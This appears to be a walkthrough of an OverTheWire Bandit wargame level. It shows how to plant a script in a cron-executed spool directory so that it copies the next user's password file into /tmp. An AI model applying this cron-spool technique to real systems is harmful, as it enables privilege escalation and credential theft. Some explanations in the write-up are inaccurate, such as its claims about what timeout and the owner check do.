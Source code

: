 A program is running automatically at regular intervals from **cron**, the time-based job scheduler.\
Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around.

- - -

As you `cd /etc/cron.d/` and `cat cronjob_bandit24`.\
It outputs:
```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Now go ahead and type `cat /usr/bin/cronjob_bandit24.sh`.\
This will output:
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
Let's breakdown what this script is saying:
- The *for loop* basically iterates through the files within this `/var/spool/bandit24` directory.
- The first *if-statement* is ignoring the directory symbol `.` and the parent directory symbol `..`
- The second *if-statement* is checking if the user you're currenlty on is bandit23.
- The `timeout` command basically executes the `./$i` file every 60 seconds.
- The `rm -f` deletes the file. 

- - -

If you read the script, it says that it is `executing and deleting all scripts in /var/spool/$myname`. We assume that `myname` is **bandit24** because according to the  **cronjob_bandit24**, this script is being executed by bandit24.\
We can actually manually go inside this directory!\
Type:\
`cd /var/spool/bandit24`

Now that we understand the script, and since we are in the `/var/spool/bandit24` directory, we can put a file in here and have it execute every 60 seconds.  What we can do is put a script in `/var/spool/bandit24` to `cat` out the **bandit24 password** and put it into a directory we have access to.\
The directory we have access to will be the `/tmp` directory.  However, we'll have to make a folder in there first.\
So type:\
`mkdir /tmp/GETPASSWORD` 

Now that we have our directory we can create our script in `/var/spool/bandit24`.\
Type:\
`vim /var/spool/bandit24/password.sh`\
Put this inside the password.sh file:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/GETPASSWORD/bandit24password.txt
```
As soon as you save the file, quickly type:\
`chmod +x password.sh`
So that the file can be executable.
- - -

Now that we made our script, we now wait 60 seconds and then the `bandit24password.txt` should appear in the `/tmp/GETPASSWORD` directory.  
